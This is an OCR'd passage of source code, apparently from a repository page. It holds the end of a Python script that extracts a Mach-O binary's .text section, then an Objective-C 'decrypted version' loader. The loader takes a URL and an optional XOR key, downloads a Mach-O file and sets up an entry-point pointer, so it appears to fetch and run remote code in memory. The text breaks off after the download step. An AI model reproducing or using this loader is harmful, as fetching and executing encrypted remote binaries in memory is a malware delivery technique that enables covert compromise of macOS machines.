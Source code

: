 >>>
>>>         out.write(data[text_offset:text_offset+text_size])
>>>
>>>     print(f"[+] Written extracted .text to {output_path}")
>>>
>>>
>>>
>>> if __name__ == "__main__":
>>>
>>>     if len(sys.argv) != 3:
>>>
>>>         print(f"Usage: {sys.argv[0]} <input_macho> <output_text>")
>>>
>>>         sys.exit(1)
>>>
>>>     extract_text_section(sys.argv[1], sys.argv[2])
>>>
>>>
>>> Decrypted version
>>>
>>>
>>> #import <Foundation/Foundation.h>
>>>
>>> #import <mach-o/loader.h>
>>>
>>> #import <mach-o/getsect.h>
>>>
>>> #import <sys/mman.h>
>>>
>>> #import <stdio.h>
>>>
>>> #import <stdlib.h>
>>>
>>> #import <string.h>
>>>
>>>
>>> typedef void (*entry_t)(void);
>>>
>>>
>>> int main(int argc, const char * argv[]) {
>>>
>>>     if (argc < 2) {
>>>
>>>         fprintf(stderr, "Usage: %s <url_to_macho> [xor_key]\n", argv[0]);
>>>
>>>         return 1;
>>>
>>>     }
>>>
>>>
>>>     @autoreleasepool {
>>>
>>>         NSString *urlString = [NSString stringWithUTF8String:argv[1]];
>>>
>>>         NSURL *url = [NSURL URLWithString:urlString];
>>>
>>>         NSError *err = nil;
>>>
>>>
>>>         NSData *machoData = [NSData dataWithContentsOfURL:url options:0 error:&err];
>>>
>>>         if (!machoData) {
>>>
